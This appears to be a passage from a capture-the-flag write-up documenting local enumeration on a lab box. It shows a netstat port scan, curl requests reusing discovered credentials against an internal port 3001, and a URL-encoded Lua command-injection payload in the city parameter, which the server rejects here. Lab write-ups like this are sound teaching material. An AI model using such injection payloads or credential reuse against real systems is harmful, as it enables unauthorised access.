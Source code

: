 * and [doas](https://www.freebsd.org/cgi/man.cgi?query=doas&sektion=1&manpath=freebsd-release-ports) utility is also not available for `_httpd` user - 

	  $ doas -u r.michaels /bin/ksh
	  doas: Operation not permitted

* checking network ports

	  $ netstat -ant | grep LISTEN
	  tcp        0      0  127.0.0.1.3000         *.*                    LISTEN
	  tcp        0      0  127.0.0.1.3001         *.*                    LISTEN

  * I already seen the port 3000 in port 80 login error and 3000 is the local instance of the port 80.
  * port 3001 is new

* curl on port 3001

	  $ curl 127.0.0.1:3001
	  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
									  Dload  Upload   Total   Spent    Left  Speed
	  100   199  100   199    0     0  99500      0 --:--:-- --:--:-- --:--:-- 99500
	  <html><head><title>401 Unauthorized</title></head>
	  <body><h1>401 Unauthorized</h1>
	  /: <pre>No authorization</pre>
	  <hr><address><a href="//127.0.0.1:3001/">127.0.0.1:3001</a></address>
	  </body></html>

* asking for authorization.
* using same creds to login -

	  $ curl --user webapi_user:iamthebest http://127.0.0.1:3001
	  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
									  Dload  Upload   Total   Spent    Left  Speed
	  100   386  100   386    0     0   125k      0 --:--:-- --:--:-- --:--:--  125k
	  <!doctype html>
	  <html>
	  <head>
		  <title>Index</title>
	  </head>
	  <body>
		  <p><h3>Weather Forecast API</h3></p>
		  <p><h4>List available cities:</h4></p>
		  <a href="/weather/forecast?city=list">/weather/forecast?city=list</a>
		  <p><h4>Five day forecast (London)</h4></p>
		  <a href="/weather/forecast?city=London">/weather/forecast?city=London</a>
		  <hr>
	  </body>
	  </html>

* same page that get from the port 80 login.
* tested the code execuation vulnerbility here on port 3001 and it looks line local server is not vulnerable for command execuation -

	  $ curl --user webapi_user:iamthebest "http://127.0.0.1:3001/weather/forecast?city=%27%29%3Bos.execute%28%22id%22%29--"
	  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
									 Dload  Upload   Total   Spent    Left  Speed
	  100    60    0    60    0     0  30000      0 --:--:-- --:--:-- --:--:-- 30000
	  {"code": 500,"error": "unknown city: ');os.execute("id")--"}
